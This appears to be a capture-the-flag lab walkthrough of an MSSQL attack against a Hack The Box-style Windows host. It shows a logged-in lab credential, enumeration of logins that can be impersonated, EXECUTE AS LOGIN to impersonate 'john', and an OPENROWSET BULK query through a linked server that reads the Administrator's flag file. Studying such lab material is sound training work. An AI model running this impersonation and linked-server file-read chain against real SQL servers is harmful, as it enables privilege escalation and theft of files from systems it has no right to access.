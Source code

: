 #### MSSQL Enumeration

```
┌──(nabla㉿kali)-[~]
└─$ netexec mssql 10.129.203.10 -u fiona -p '48Ns72!bns74@S84NNNSl'

[SNIP]

MSSQL       10.129.203.10   1433   WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl 📌
```

```yaml
credentials:
    username: fiona
    password: '48Ns72!bns74@S84NNNSl'
    host: 10.129.203.10
    port: 445,1433,3389 (SMB,MSSQL,RDP)
```

#### MSSQL Exploitation

```
┌──(nabla㉿kali)-[~]
└─$ impacket-mssqlclient fiona:'48Ns72!bns74@S84NNNSl'@10.129.203.10 -windows-auth

[SNIP]

[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 

SQL (WIN-HARD\Fiona  guest@master)> SELECT DISTINCT b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
name
-----
john 📌
simon

SQL (WIN-HARD\Fiona  guest@master)> SELECT SYSTEM_USER;
--------------
WIN-HARD\Fiona

SQL (WIN-HARD\Fiona  guest@master)> EXECUTE AS LOGIN = 'john';

SQL (john  guest@master)> SELECT SYSTEM_USER;
----  
john

SQL (john  guest@master)> SELECT srvname,isremote FROM sysservers;
srvname                 isremote
---------------------   --------
WINSRV02\SQLEXPRESS            1
LOCAL.TEST.LINKED.SRV          0

SQL (john  guest@master)> EXECUTE('select @@servername,@@version,system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV];

SQL (john  guest@master)> EXECUTE ('SELECT * FROM OPENROWSET(BULK ''C:/Users/Administrator/Desktop/flag.txt'', SINGLE_CLOB) AS Contents') AT [LOCAL.TEST.LINKED.SRV];
BulkColumn                       
------------------------------   
b'HTB{4**********************' 📌
```

---
---

